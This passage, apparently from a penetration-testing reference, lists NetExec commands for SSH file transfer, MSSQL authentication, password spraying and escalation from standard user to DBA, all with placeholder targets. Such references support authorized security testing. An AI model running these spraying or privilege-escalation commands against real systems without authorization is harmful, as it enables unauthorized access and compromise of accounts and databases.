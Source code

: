{% tab title="Transfers" %}
```bash
# Upload
nxc ssh <target> -u <user> -p <pass> --put-file file.txt /tmp/file.txt

# Download
nxc ssh <target> -u <user> -p <pass> --get-file /tmp/file.txt file.txt
```
{% endtab %}
{% endtabs %}

## MSSQL

{% tabs %}
{% tab title="Auth" %}
Two methods can be used to authenticate to MSSQL: Windows (default) & local auth:

```bash
# 1. Windows auth

# With SMB port open
nxc mssql <target> -u <user> -p <pass>

# With SMB port closed
nxc mssql <target> -u <user> -p <pass> -d <domain>

# 2. Local auth
nxc mssql <target> -u <user> -p <pass> --local-auth
```

Ports can be also be specified:

```bash
nxc mssql <target> -u <user> -p <pass> --port <port>
```
{% endtab %}

{% tab title="Pass Spray" %}
{% code overflow="wrap" %}
```bash
nxc mssql <target> -u userfile -p passwordfile --no-bruteforce --continue-on-success
```
{% endcode %}
{% endtab %}

{% tab title="PrivEsc" %}
From standard user to DBA:

```bash
# Check if possible
nxc mssql <ip> -u user -p password -M mssql_priv

# Impersonate
nxc mssql <ip> -u user -p password -M mssql_priv -o ACTION=privesc

# Rollback
nxc mssql <ip> -u user -p password -M mssql_priv -o ACTION=rollback
```
{% endtab %}
